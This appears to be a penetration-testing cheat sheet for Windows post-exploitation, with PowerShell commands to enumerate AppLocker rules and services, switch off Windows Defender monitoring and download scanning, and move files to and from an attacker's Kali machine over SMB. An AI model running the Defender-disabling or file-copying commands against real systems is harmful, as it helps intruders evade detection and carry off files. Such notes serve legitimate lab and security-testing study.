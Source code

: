 ### Anything reachable?
Use PowerShell
``` powershell
Get-AppLockerPolicy -Effective
Get-AppLockerPolicy -Effective | select -ExpandedProperty RuleCollections
```

### What does the inside look like?
Look for interesting services
``` powershell
netstat -ano
```

### Leave me alone
Do you have admin privs?<br>

Disable Windows Defender real time monitoring
``` powershell
Set-MpPreference -DisableRealTimeMonitoring $true	
```

Disable Windows Defender scanning for all files downloaded
``` powershell
Set-MpPreference -DisableIOAVProtection $true	
```

## File Transfer

### SMB

On KALI, start smb server to serve files. Get impacket from [here](https://github.com/SecureAuthCorp/impacket/releases/)
<br>
> Use double-quotes if file path has spaces in it 

``` bash
sudo impacket-smbserver abcd /path/to/serve
```
You can download files in multiple ways.<br>
**Mount drive**
> CMD or PowerShell
``` powershell
net use abcd: \\kali_ip\myshare
net use abcd: /d # disconnect
net use abcd: /delete # then delete
```
> PowerShell
``` powershell
New-PSDrive -Name "abcd" -PSProvider "FileSystem" -Root "\\ip\abcd"
Remove-PSDrive -Name abcd
```
**Copy w/o mounting**
``` powershell
copy //kali_ip/abcd/file_name C:\path\to\save
copy C:\path\to\file //kali_ip/abcd
```
